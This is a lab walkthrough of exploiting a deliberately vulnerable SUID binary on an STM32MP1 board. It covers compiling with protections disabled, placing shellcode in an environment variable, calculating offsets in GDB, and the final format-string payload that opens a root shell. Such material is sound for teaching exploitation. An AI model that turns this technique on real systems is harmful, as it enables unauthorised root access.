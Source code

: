 # Privilege Escalation Using a Formatted String Exploit Setup Guide

## Introduction
This guide explains how to perform privilege escalation by exploiting a vulnerable binary with the SUID attribute enabled. The attack involves using a format string to hijack the control of the program. Follow the steps below to set up the attack on the STM32MP1.

## 1. Transfer and Compile the Vulnerable Code
The first step is to set up the vulnerable binary on the target machine. To do this, transfer the source file `vuln.c` to the target machine. Then, log in as root on this machine and compile the source code with stack protections disable. Use the following command to compile the code:
```bash
g++ -Wall -g -z execstack -fno-stack-protector vuln.c -o vuln
```

Once the compilation is complete, set the executable rights for low-privileged users and enable the SUID attribute on the binary so that it runs with the owner's privileges (root):
```bash
chmod 755 vuln
chmod u+s vuln
```

## 2. Create the Shellcode
Next, create a shellcode that will open a terminal with root privileges. This shellcode needs to perform two actions:
- Set the EUID (Effective User ID) to 0 (root).
- Execute a terminal using the `execve` command.

Here’s an example of C code that illustrates what the shellcode should do:
```c
int main(){
    setreuid(0,0);
    char *args[] = {"/bin/sh", NULL}; 
    execve("/bin/sh", args, NULL);
}
```

When creating the actual shellcode, keep the following points in mind:
- The shellcode must not contain null characters (\x00) because these are removed from the stack.
- On the STM32MP1, **busybox** is used, so we cannot simply execute `execve("bin/sh", NULL, NULL)` to open a terminal.

Once created, convert this shellcode to hexadecimal format.

## 3. Export the Shellcode into an Environment Variable
Once your shellcode is in hexadecimal format, we need to export it into an environment variable. To do this, place the hexadecimal code into the `export_shellcode.py` script, transfer the script to the target machine, and run the following command to export the shellcode:
```bash
export SHELLCODE=$(python3 /home/techi/export_shellcode.py)
```

Check that the environment variable was successfully added by running the `env` command. This will display all active environment variables, and you can confirm that SHELLCODE is included.

## 4. Retrieve the Address of the Environment Variable
### Retrieving the Address
We now need to retrieve the address of our shellcode in the stack when the vulnerable binary is executed. To do this, we will use the `getenv.c` program, which locates the address of an environment variable in memory.

Once the `getenv.c` source code is on the target machine, compile it and run it to get the address of the SHELLCODE environment variable:
```bash
g++ -o getenv getenv.c
./getenv SHELLCODE
```

This program provides an initial approximation of the address where our environment variable is located during a function call. However, this address needs to be adjusted based on the function call because the stack will be offset by the size of the function call.

Assume the address returned by getenv is 0xbeffff1d, and we run the vulnerable program with the command `./vuln < <(echo "username")`. In this case, the function call is 6 bytes long (the length of the command `./vuln` is 6 characters). Therefore, we need to adjust the address by subtracting these 6 bytes. Thus, the shellcode address during the execution of `./vuln` will be 0xbeffff17.

> Note: The address we retrieve here is the address of the value of the environment variable. Variables are stored in the stack in the form VARIABLE_NAME=VALUE. What we are retrieving here is the address where the value of the variable starts.

### Adjusting for Proper Alignment
The instructions of the shellcode are interpreted in groups of 4 bytes. To ensure that the shellcode is correctly interpreted, the starting address must be a multiple of 4. Addresses that are multiples of 4 end in 0, 4, 8, or C.

If the calculated address is not a multiple of 4 (for example, 0xbeffff17), add padding bytes to the end of the shellcode to shift the starting address to the left until it becomes a multiple of 4. For example, for the address 0xbeffff17, you would need to add 3 padding bytes, which will align the address to 0xbeffff14, a multiple of 4.

> Note: You can use any value for the padding, except \x00, because null bytes are removed from the stack.

## 5. Build the Format String
### Introduction
In this step, we will craft a format string that allows us to execute our shellcode. The goal is to use the username field to overwrite the return address of the vulnerable program, redirecting control to our shellcode.

### Format String Structure
The `username` field is 12 characters long, so the format string will be limited to 12 characters, excluding simple strings like `A*100`. Instead, we will use a format string with a minimum width specifier : `%100d`.  The minimum width specifier enforces a minimum length for the input. If the input is shorter than this length, padding bytes (spaces \x20) will be added to complete the length.

The general structure of the format string is:
```
"%100d" + "address of the shellcode in the stack in Little Endian"
```

Suppose the shellcode address is 0xbeffff14, the format string will look like this:
```
 %100d\x14\xff\xff\xbe
```

### Calculate the Padding
To overwrite the return address, we need to calculate the correct length for the minimum width specifier.

First, use GDB to gather the necessary information. Transfer GDB to the STM32MP1 target system by running the `install_gdb.sh` script on your machine. Then, launch the program in GDB on the target system:
```bash
gdb ./vuln
```

Use the following GDB commands to gather the necessary information:
```bash
break main
run
info frame
print &outbuf
```

The `info frame` command shows the address of the `lr` register, which contains the return address (e.g., 0xbefffc54). The `print &outbuf` command shows the address of the buffer used for the overflow (e.g., 0xbefffa4c).

With those informations, we can calculate the padding needed to overwrite the return address. The outbuf contains a string in the following format:
`outbuf = "ERR Wrong user : " + " " * (400 - len(format_string)) + <Padding bytes> + <Shellcode address>`

Based on the information gathered, we can calculate where the shellcode address will be written. For instance, if the format string is `%100d\x14\xff\xff\xbe`, the total length of the buffer would be `17 + (400 - 9) + 100 + 4 = 512` bytes. Thus, the shellcode address will be written at `0xbefffa4c + 17 + (400 - 9) + 100 = 0xbefffc48`.

Therefore to overwrite the return address, the offset must be:
```
int(0xbefffc54) - int(0xbefffa4c) - 17 - (400 - 9) = 112
```

Thus, the final format string becomes:
```
 %112d\x14\xff\xff\xbe
```

## 6. Running the Attack
Finally, we can execute the attack by running the following command:
```bash
(echo -e '%112d\x14\xff\xff\xbe'; cat -) | ./vuln
```

If every step is done correctly, you should gain a shell with root access.

> Note 1: : Depending on how the format string is passed to `vuln`, you might need to add a compensation character at the end of the string. This is because, in the vulnerable code (line 16), the last character of the `username` string may be replaced with a null character (\0).

> Note 2: The `cat` command in the above exploit is used to keep the shell open. If you don't include `cat`, the shell will be spawned, but it will close immediately after execution. The `cat` command keeps the input stream open, preventing the shell from terminating.
